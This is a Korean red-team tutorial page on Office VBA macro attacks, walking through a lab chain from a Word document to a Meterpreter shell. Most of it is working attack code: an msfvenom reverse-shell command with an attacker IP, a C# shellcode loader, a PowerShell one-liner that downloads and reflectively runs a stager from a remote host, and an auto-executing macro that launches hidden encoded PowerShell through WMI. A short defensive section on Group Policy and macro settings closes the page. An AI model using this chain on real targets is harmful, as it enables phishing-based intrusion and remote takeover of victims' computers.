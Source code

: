 # 오피스 VBA 매크로

비쥬얼 베이직 어플리케이션 (VBA) 매크로는 마이크로소프트 오피스 제품들의 자동화를 도와주는 비쥬얼 베이직 6.0 기반의 프로그래밍 언어다. 보안적으로는 90년대부터 피싱 공격 첨부파일안의 악성코드를 실행하는데 많이 사용됐다.&#x20;

2022년 기준 오피스 VBA 매크로를 사용한 초기 침투 및 피싱 공격은 성공하기 매우 어려워졌다. 마이크로소프트는 2022년 2월에 모든 오피스 제품들과 오피스365에서[ 기본적으로 매크로를 비활성화 하도록 패치](https://docs.microsoft.com/en-us/deployoffice/security/internet-macros-blocked)했다. - 2022/07/07 업데이트 - 라고 생각했는데 7월 7일 이 패치를 롤백했다 ([https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/](https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/)). 따라서 VBA 매크로는 여전히 기본적으로 활성화 되어 있는 상태다. 레드팀들이나 공격자들이 매우 환영할만한 롤백이다(...).&#x20;

이제는 잘 쓰이지 않게 된 TTP지만 거의 30년 동안 공격자들이 사용했던 역사적인 가치가 있는 공격 기법이기 때문에 기초를 닦는다는 마음가짐으로 이 페이지에서 정리한다.&#x20;

### AutoOpen, Document\_Open&#x20;

오피스 제품들에서 실행되는 VBA 매크로 중 AutoOpen() 과 Document\_Open() 함수는 파일을 열자마자 자동적으로 실행되는 함수다. 이를 막는 MotW (Mark of the Web), Protected Views, 그리고 Enable Content 등의 방어 기법들이 있어 요새는 문서를 연다고 해서 VBA 매크로가 자동적으로 실행되지는 않는다. 그러나 피해자 유저가 방어 기법들을 모두 비활성화 하거나 허용할 시 위에서 언급된 함수들이 실행된다.&#x20;

### 실습&#x20;

이번 실습에서는 다음과 같은 공격 체인을 만들어본다:&#x20;

* 워드 프로세스 -> VBA 매크로 -> WMI -> 파워쉘 -> C# .NET 로더 -> Meterpreter&#x20;

중간에 VBA 매크로에서 WMI를 사용하는 것은 쉘이 워드 프로세스 파일이 아닌 `WmiPrvSE.exe` 파일의 자식 프로세스로 생성되기 때문이다. 이 경우 피해자 유저가 워드 문서 파일을 닫아도 쉘은 살아있게 된다.&#x20;

1. 먼저 Meterpreter 쉘코드를 `msfvenom` 을 이용해 만든다.&#x20;

```
└─# msfvenom -p windows/x64/meterpreter/reverse_http lhost=192.168.40.182 lport=443 --encrypt aes256 --encrypt-key 'qaG+eb3eShkiYq3tuv9y!B&E)$@Mc%fT' --encrypt-iv '?aEe(fG+KbPe23fz' -f csharp
```

2\. 이 Meterpreter 쉘을 로드해 실행할 C# .NET 로더를 만든다. 슬리버 C2의 스테이저 코드를 수정한 뒤 사용했다.&#x20;

<details>

<summary>MeterStager.cs</summary>

```csharp
using System;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace MeterStager
{
    public class Stager
    {
        private static string aesKey = "qaG+eb3eShkiYq3tuv9y!B&E)$@Mc%fT";
        private static string aesIV = "?aEe(fG+KbPe23fz";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            byte[] shellcode = new byte[720] {
            	
            < ... Meterpreter 쉘코드 ... >  

            };


            shellcode = Decrypt(shellcode, aesKey, aesIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)0xfff0000, 0x3000, 0x40);
            //Console.WriteLine("[+] addr: {0}", addr.ToInt64().ToString("x2"));
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            //Console.WriteLine("[+] shellcode length: {0}", shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```

</details>

3\. 이후 이 MeterStager.cs C# .NET 로더는 파워쉘에 로드되어 실행된다. 공격자의 다른 서버 `192.168.40.179` 의 포트 9999에서 파일을 받아온 뒤, Reflection을 이용해 로드한 뒤, 메인 EntryPoint를 실행하도록 파워쉘 페이로드를 준비한다. &#x20;

```
iex([System.Reflection.Assembly]::Load((New-Object net.webclient).DownloadData('http://192.168.40.179:9999/MeterStager.exe'))).EntryPoint.Invoke($null, [Object[]]@(@(,([String[]]@()))))
```

위 파워쉘 페이로드를 VBA 매크로에 들어가도록 유틸 스크립트를 이용해 base64 인코딩 한다.&#x20;

<details>

<summary>Invoke-VBAps.ps1</summary>

```powershell
$s = @'
 < your powershell payload here > 
'@
 
<# Just copy/paste everything below! #>
$EncodedText =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($s))  

$array = @()
[System.Collections.ArrayList]$ArrayList = $array
$EncodedText -split '(.{300})' | Where-Object {
    $ArrayList.Add($_) | out-null
}

foreach ($item in $ArrayList){
    if([string]::IsNullOrEmpty($item)){
        continue
    }
    else{
        if($item -eq $ArrayList[-1]){
            '"' + $item +'"' 
            break 
        }
        '"' + $item + '" & _'
    }
    
}
```



</details>

4\. 이제 완성된 파워쉘 페이로드를 VBA 매크로에다가 집어넣은 뒤, 문서를 생성하면 된다.&#x20;

<details>

<summary>go.vba</summary>

```vba
Sub Document_Open()
    test
End Sub

Sub AutoOpen()
    test
End Sub

Function test()
    Const HIDDEN_WINDOW = 12

    strComputer = "."
    Set objWMIService = GetObject("winmgmts:" _
        & "{impersonationLevel=impersonate}!\\" & strComputer & "\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")

    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    
    Dim proc As Object
    Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    Dim str As String
    
    str = "powershell -exec bypass -nologo -nop -w hidden -enc " & _
    "aQBlAHgAKABbAFMAeQBzAHQAZQBtAC4AUgBlAGYAbABlAGMAdABpAG8AbgAuAEEAcwBzAGUAbQBiAGwAeQBdADoAOgBMAG8AYQBkACgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAMAAuADEANwA5ADoAOQA5ADkAOQAvAFMAbABpAHYAZQBy" & _
    "AFMAdABhAGcAZQByAC4AZQB4AGUAJwApACkAKQAuAEUAbgB0AHIAeQBQAG8AaQBuAHQALgBJAG4AdgBvAGsAZQAoACQAbgB1AGwAbAAsACAAWwBPAGIAagBlAGMAdABbAF0AXQBAACgAQAAoACwAKABbAFMAdAByAGkAbgBnAFsAXQBdAEAAKAApACkAKQApACkA"
    
    errReturn = proc.Create(str, Null, objConfig, intProcessID)
End Function
```

</details>

Chameleon과 VBA script 난독화를 진행할 경우 디펜더 우회는 가능하지만, 모든 공격 PoC가 그렇듯 무기화는 진행하지 않는다.&#x20;

실행하면 다음과 같은 결과가 나온다.&#x20;

![](../../.gitbook/assets/blog-simple-vba.gif)

### 대응 방안&#x20;

* 업데이트된 오피스 제품들이나 오피스365를 사용한다면 기본적으로 악성 VBA 매크로가 비활성화 되어 있다. - 라고 생각했지만 07/07일 마이크로소프트 사가 이를 [롤백](https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/)했다.&#x20;
* 마이크로 오피스 전용 그룹 정책 Administrative Template File 을 다운 받은 뒤, 그룹 정책을 설정한다. 그룹 정책을 설정할 때에는 유저 그룹마다, 호스트 그룹마다 따로 GPO를 설정하는 것이 권장된다.&#x20;
* 예를 들어, VBA 매크로 자체를 비활성화 해버리는 GPO의 경우 회계부서 OU 보다는 IT나 세일즈 유저들이 있는 OU에 링크 하는 것이 바람직할 것이다.&#x20;
* VBA 비활성화 혹은 디지털 서명된 VBA만 사용 - `Computer/User Configuration\Policies\Administrative Templates\Microsoft Office XXXX\Security Settings\Disable VBA Office applications`
* 개인이나 GPO가 필요없는 소규모 네트워크의 경우 엔드 유저가 직접 비활성화 시킬수도 있다.
  * 워드 -> Options -> Trust Center -> Trust Center Settings -> Macro Settings -> VBA 완전 비활성화 혹은 디지털 서명된 VBA 만 허용&#x20;

![](../../.gitbook/assets/endpoint-no-vba.png)

### 레퍼런스&#x20;

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=49030" %}

{% embed url="https://4sysops.com/archives/restricting-or-blocking-office-2016-2019-macros-with-group-policy/" %}
